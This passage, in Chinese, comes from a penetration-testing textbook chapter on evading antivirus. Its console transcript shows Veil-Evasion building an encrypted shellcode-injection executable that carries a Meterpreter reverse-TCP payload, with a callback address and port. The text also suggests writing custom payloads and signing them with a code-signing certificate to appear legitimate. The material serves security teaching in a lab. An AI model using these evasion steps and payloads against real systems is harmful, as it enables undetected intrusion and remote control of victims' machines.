截至目前，Veil-Evasion 已经实现了 28 种创建可执行文件的方法。对于本示例，选择第 23 种方法 ❶，使用 VirtualAlloc 注入方法并采用 AES 加密。一旦选择了方法，Veil-Evasion 会提示您是否更改方法选项，默认情况下，如示例 12-11 所示。

示例 12-11. 在 Veil-Evasion 中使用 Python VirtualAlloc

```
[>] Please enter a command: **23**

Payload: python/shellcode_inject/aes_encrypt loaded

 Required Options:

 Name            Current Value    Description
 ----            -------------    -----------
❶compile_to_exe  Y                Compile to an executable
 expire_paylo    X                Optional: Payloads expire after "X" days
❷inject_method   Virtual          Virtual, Void, Heap
 use_pyherion    N                Use the pyherion encrypter

 Available commands:

    set             set a specific option value
    info            show information about the payload
    generate        generate payload
    back            go to the main menu
    exit            exit Veil
```

默认情况下，该有效载荷将使用 `VirtualAlloc()` 作为注入方法，将 Python 脚本编译成可执行文件 ❶。这些选项对于我们的示例是正确的，因此在提示符下输入**`generate`**。然后，系统会提示您输入关于 shellcode 的详细信息，如示例 12-12 所示。

示例 12-12. 在 Veil-Evasion 中生成可执行文件

```
[?] Use msfvenom or supply custom shellcode?

        1 - msfvenom (default)
        2 - Custom

 [>] Please enter the number of your choice: **1**

 [*] Press [enter] for windows/meterpreter/reverse_tcp
 [*] Press [tab] to list available payloads
 [>] Please enter metasploit payload:
 [>] Enter value for 'LHOST', [tab] for local IP: **192.168.20.9**
 [>] Enter value for 'LPORT': **2345**
 [>] Enter extra msfvenom options in OPTION=value syntax:

 [*] Generating shellcode...
 [*] Press [enter] for 'payload'
 [>] Please enter the base name for output files: **meterpreterveil**

 [?] How would you like to create your payload executable?

        1 - Pyinstaller (default)
        2 - Py2Exe

 [>] Please enter the number of your choice: **1**
--*snip*--
 [*] Executable written to: /root/veil-output/compiled/meterpreterveil.exe

 Language:    python
 Payload:    AESEncrypted
 Shellcode:    windows/meterpreter/reverse_tcp
 Options:    LHOST=192.168.20.9  LPORT=2345
 Required Options:    compile_to_exe=Y  inject_method=virtual  use_pyherion=N
 Payload File:    /root/veil-output/source/meterpreterveil.py
 Handler File:    /root/veil-output/handlers/meterpreterveil_handler.rc

 [*] Your payload files have been generated, don't get caught!
 [!] And don't submit samples to any online scanner! ;)
```

Veil-Evasion 会提示您选择使用 Msfvenom 生成 shellcode，或提供自定义的 shellcode。为了我们的目的，选择 Msfvenom。默认有效载荷是*windows/meterpreter/reverse_tcp*，按回车键选择它。然后，系统会提示您输入常规选项，如`LHOST`和`LPORT`，并为生成的可执行文件指定文件名。最后，Veil-Evasion 提供两种将 Python 转换为可执行文件的方法。选择默认的`Pyinstaller`，让 Veil-Evasion 生成恶意可执行文件并保存到*veil-output/compiled*目录。

截至目前，我们在 Windows 7 系统中测试的可执行文件可以轻松通过 Microsoft Security Essentials 的检测。Veil-Evasion 提醒您不要将生成的可执行文件上传到在线扫描器，因此应作者的请求，我们将跳过使用 VirusTotal 检查此示例。然而，我们可以安装其他防病毒解决方案，除了 Microsoft Security Essentials，看看是否能标记出该可执行文件。

### 注意

如果发现 Veil-Evasion 生成的可执行文件无法正常工作，可能需要使用 Msfupdate 更新 Metasploit。由于 Veil-Evasion 当前不在 Kali Linux 的仓库中，您在设置时下载的最新版本可能与 Kali 1.0.6 默认安装中 Msfvenom 的工作方式不匹配。当然，如果您使用 Msfupdate 更新 Metasploit，书中的其他练习也可能会发生变化，因为 Metasploit 的功能经常更新。因此，如果不希望更新影响后续的练习，您可以选择将此练习留到第二遍阅读时再做，或者使用第二个 Kali Linux 镜像。

## 直言不讳的隐匿

也许避免杀毒软件的最好方法是完全避免使用传统有效载荷。如果你熟悉 Windows 编程，你可以使用 Windows API 来模拟有效载荷的功能。当然，没有规定合法的应用程序不能与其他系统建立 TCP 连接并发送数据——这实际上就是我们的 *windows/meterpreter/reverse_tcp* 有效载荷的工作方式。

你可能会发现，与其使用 Msfvenom 生成有效载荷并尝试用本章讨论的方法隐藏它，不如编写一个 C 程序来实现你想要的有效载荷功能，效果可能更好。你甚至可以投资购买代码签名证书，为你的二进制可执行文件签名，以使其看起来更加合法。

### 注意

在继续进行后渗透阶段之前，先关闭 Microsoft Security Essentials 的实时保护。

## 总结

在本章中，我们仅探讨了绕过杀毒软件检测的几种技术。绕过杀毒软件的主题可以写成一本书，而且一旦出版，这本书可能会很快过时。渗透测试人员和研究人员不断想出新的方法来突破杀毒软件的检测，而杀毒软件厂商也总是在增加新的签名和启发式算法来抓捕它们。

我们研究了使用 Metasploit 来编码并将有效载荷嵌入合法可执行文件的方法。当我们发现这些技术不足以绕过 Microsoft Security Essentials 时，我们转向了 Metasploit 之外的技术。我们构建了一个自定义可执行文件模板，发现通过结合不同的技术，我们能够提高效果。

我们最终成功达到了绕过 Microsoft Security Essentials 的目标，使用了 Hyperion。虽然我们从未达到 0% 检测率，但我们成功绕过了 Microsoft Security Essentials 以及其他几个顶级杀毒软件。我们还研究了另一个工具 Veil-Evasion，它结合了 VirtualAlloc 注入和加密，以实现更好的规避效果。

在研究了许多入侵系统的方法之后，即便是那些没有明显漏洞的系统，我们现在将关注一旦渗透系统后能做什么，进入渗透测试的后渗透阶段。
